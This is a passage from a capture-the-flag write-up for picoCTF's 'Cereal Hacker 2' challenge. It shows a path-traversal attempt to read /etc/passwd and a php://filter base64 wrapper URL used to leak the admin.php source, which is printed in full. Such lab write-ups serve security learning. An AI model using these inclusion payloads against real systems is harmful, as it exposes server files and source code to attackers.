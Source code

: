 <h3>Challenge #18 Cereal Hacker 2</h3>
<blockquote>Get the admin's password. https://2019shell1.picoctf.com/problem/62195/ or http://2019shell1.picoctf.com:62195</blockquote>

Same login page as in Cereal Hacker 1.<br>I could have use some of the pentesting tools for scanning vulnerabilities , but I was doing this manually. I started for searching for LFI/RFI and to access for example <code>../../../../etc/passwd<code>. <br>The file wasn't found but i saw that it is appending .php extension at the end as a message. So that means we can actually get to the local files ,or the inclusion was done by using most likely require_once php method. One of the solutions to get to certain file was using <code>php://filter/convert.base64_encode/resource</code> . With this I am able to see any php file that is out there by outputing b64 , before it's being used by require_once method. <br> So first I tried with <blockquote>https://2019shell1.picoctf.com/problem/62195/index.php?file=php://filter/convert.base64-encode/resource=admin</blockquote>
<br>
And that gave me base64 output , after decoding b64 we've got code from admin.php which looked like this : 

```php

 <?php

require_once('cookie.php');

if(isset($perm) && $perm->is_admin()){
?>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">Welcome to the admin page!</h5>
							<h5 style="color:blue" class="text-center">Flag: Find the admin's password!</h5>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>

<?php
}
else{
?>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">You are not admin!</h5>
							<form action="index.php" method="get">
								<button class="btn btn-lg btn-primary btn-block text-uppercase" name="file" value="login" type="submit" onclick="document.cookie='user_info=; expires=Thu, 01 Jan 1970 00:00:18 GMT; domain=; path=/;'">Go back to login</button>
							</form>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>

<?php
}
?>

```
<br>
We can see that is using require_once for cookie.php so I just followed the same steps for all the things that I could get.